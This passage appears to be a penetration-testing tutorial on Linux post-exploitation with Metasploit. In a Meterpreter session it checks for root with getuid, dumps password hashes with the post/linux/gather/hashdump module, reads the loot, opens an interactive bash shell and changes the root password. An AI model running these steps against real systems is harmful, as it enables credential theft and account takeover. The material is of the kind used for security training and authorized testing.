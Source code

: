 After exploiting the target and starting Meterpreter Shell, we need to check if the target has root permission using getuid command, or we need to elevate it.

```bash
getuid
Server username: uid=0, gid=0, euid=0, egid=0
```

uid equals to 0 means that we've root permissions, then we can use meterpreter hashdump module:

```
search hashdump
use post/linux/gather/hashdump
```

This exploit generates a txt file with all hashes, we can see list of dump with `loot` command and read them using `cat` command.

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption><p><a href="https://images.squarespace-cdn.com/content/5a01100f692ebe0459a1859f/1603347414982-SZ68WZFHL6N9LG7S5HMF/BSY+Security+Class+Diagrams+-+_etc_passwd+(L).jpg?format=1500w&#x26;content-type=image%2Fjpeg">https://images.squarespace-cdn.com/content/5a01100f692ebe0459a1859f/1603347414982-SZ68WZFHL6N9LG7S5HMF/BSY+Security+Class+Diagrams+-+_etc_passwd+%28L%29.jpg?format=1500w&#x26;content-type=image%2Fjpeg</a></p></figcaption></figure>

After it, we can launch shell /bin/bash and f.e. change root psw:

```bash
shell
/bin/bash -i
passwd root
Enter new UNIX password: new_psw
Retype new UNIX password: new_psw
passed: password updated successfully
```
